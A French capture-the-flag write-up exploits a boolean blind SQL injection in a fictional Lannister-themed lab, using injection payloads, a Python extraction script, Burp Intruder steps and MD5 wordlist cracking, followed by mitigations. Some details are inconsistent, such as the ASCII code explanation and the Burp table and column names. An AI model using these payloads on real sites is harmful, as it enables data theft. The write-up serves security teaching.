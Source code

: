 ```yaml
---
title: write-up 6
next: "/write-ups/wu7"
prev: "/write-ups/wu5"
---
```


# 🏰 CTF - Injection SQL Boolean Blind & Hash MD5 Faible

## 🎯 Objectif
Bravo ! Tu es dans **Castral-Roc**, dans la salle du mestre où sont stockées des **informations confidentielles des Lannister**. Parmi elles, un livre recensant **les alliés et espions infiltrés** dans les familles de Westeros.

**Mission** : Trouver **l’espion infiltré chez les Stark à Winterfell** et récupérer **son hash MD5**.

### 🔹 Informations de la table `allies`
- `username` : Nom de l’individu (hashé en MD5)
- `relation` : **famille / allié / espion / ennemi**
- `localisation` : Lieu d'opération

📌 **Problèmes de sécurité** :
- **Injection SQL Boolean Blind (`CWE-89`)** permettant d’extraire les données cachées.
- **Stockage MD5 (`CWE-328`)** permettant une attaque par dictionnaire.

📌 **Flag 1** : Le **hash MD5** du nom de l’espion infiltré chez les Stark à Winterfell.
📌 **Flag 2** : Le **nom de l’espion en clair** (`orland mertens`).

---

## ⚙️ Environnement
- **Cible :** `http://lannister.castral-roc.lannisport.south/entourage_lannister.php`
- **Base de données :** `lannisport_db`
- **Données sensibles :** Table `allies`
- **Wordlist fournie** : Liste des 5000 personnes du château

---

## 🚀 Étape 1 : Vérifier la vulnérabilité SQL
Dans le champ **Nom** du formulaire, entre :
```sql
' OR 1=1 #
```
✅ **Si la réponse est `L’utilisateur est un allié`, alors l’injection SQL fonctionne.**


---

## 🔍 Étape 2 : Tester si un espion est infiltré chez les Stark
Dans le champ **Nom**, entre :
```sql
' OR (SELECT COUNT(*) FROM allies WHERE relation='espion' AND localisation='Winterfell') > 0 #
```
✅ **Si la page affiche `L’utilisateur est un allié`, alors un espion est bien présent.**


---

## 🕵️ Étape 3 : Exfiltrer le hash MD5 de l’espion (Boolean Blind)
Nous allons **extraire son hash MD5 caractère par caractère** en utilisant **ASCII() et SUBSTRING()**.

Dans le champ **Nom**, entre :
```sql
' OR (SELECT ASCII(SUBSTRING(username, 1, 1)) FROM allies WHERE relation='espion' AND localisation='Winterfell') = 54 #
```
✅ **Si la page affiche `L’utilisateur est un allié`, alors le premier caractère du hash est `54` (hexadécimal).**

Répète en changeant `1, 1` par `2, 1`, `3, 1`… jusqu'à obtenir le hash MD5 complet !


---

## ⚡ Étape 4 : Automatiser l’extraction avec Python
Pour éviter une extraction manuelle, utilise ce script **Python** :
```python {filename="extract_md5.py"}
import requests

URL = "http://lannister.castral-roc.lannisport.south/entourage_lannister.php"
TRUE_RESPONSE = "L’utilisateur est un allié"
MD5_HASH = ""

for i in range(1, 33):  # Un hash MD5 fait 32 caractères hexadécimaux
    for hex_code in "0123456789abcdef":  # Valeurs hexadécimales
        payload = f"' OR (SELECT SUBSTRING(username, {i}, 1) FROM allies WHERE relation='espion' AND localisation='Winterfell') = '{hex_code}' -- "
        data = {"username": payload}
        response = requests.post(URL, data=data)

        if TRUE_RESPONSE in response.text:
            MD5_HASH += hex_code
            print(f"[+] Caractère {i} trouvé : {hex_code}")
            break

print(f"\n🚀 Hash MD5 de l'espion : {MD5_HASH}")
```

✅ **Exécute le script :**
```bash
python3 extract_md5.py
```
🚀 **Il affichera le hash MD5 complet !**


avec burp : 




BURP : 
1, ouvrir burp, et le browser intégré avec le proxy, 

2, faire requete sur http://lannister.castral-roc.lannisport.south/entourage_lannister.php

pour trouver qqun, par exemple tyrion

3, Envoyer la requete dans l'Intruder 

Mettre ensuite l'attaque en cluster bomb.

après le user on met des payloads : 

username=' AND (SELECT

SUBSTRING(password,§position_carac§,1) FROM users WHERE

relation='espion')=§carac§, ,§position_carac§

4, on va ensuite dans payloads, pour le assigner des valeurs à §position_carac§ et §carac§

pour §position_carac§ on peut entrer des nombres de 1 à 20 et pour §carac§ on peut entrer des lettres de a à z, des lettres de A à Z, et des nombres de 0 à 9

Lancer l'attaque avec start attack

Tirer ensuite pas longueur et on obtient sur chaque ligne un lettre du hash

---

## 🔑 Étape 5 : Trouver le nom de l’espion via une wordlist
Le hash MD5 de l’espion doit être comparé aux 5000 noms fournis.

### 🔹 Utilisation d’un script Python pour comparer le hash
```python
import hashlib

MD5_TARGET = "54cc047eb12722d574b528af105d9e21"  # Hash obtenu
WORDLIST = "names_5000.txt"

with open(WORDLIST, "r", encoding="utf-8") as file:
    for name in file:
        name = name.strip().lower()
        hashed_name = hashlib.md5(name.encode()).hexdigest()

        if hashed_name == MD5_TARGET:
            print(f"[+] Nom de l'espion trouvé : {name}")
            break
```

✅ **Exécute le script :**
```bash
python3 crack_md5.py
```
🚀 **Il affichera `orland mertens` !**


---

## 🏆 Validation du CTF
🚀 **Félicitations, tu as terminé la mission !** 🔥

📌 **Flag 1** : `MD5 du nom de l’espion`
📌 **Flag 2** : `orland mertens`


---

## 🔒 Mitigation & Sécurisation
- **Éviter l’injection SQL** → Utiliser **des requêtes préparées** (`mysqli_stmt_bind_param`).
- **Ne pas stocker les mots de passe / noms sensibles en MD5** → Utiliser `bcrypt`.
- **Limiter les tentatives de requêtes Boolean Blind** → Protection par `fail2ban` et `CAPTCHA`.

---

## 🎯 Conclusion
✔ **Exploitation d’une injection SQL Boolean Blind (`CWE-89`).**
✔ **Exfiltration du hash MD5 de l’espion infiltré chez les Stark.**
✔ **Brute-force du hash MD5 avec une wordlist pour retrouver `orland mertens`.**

🚀 **CTF réussi ! Prêt pour la prochaine mission ?** 🔥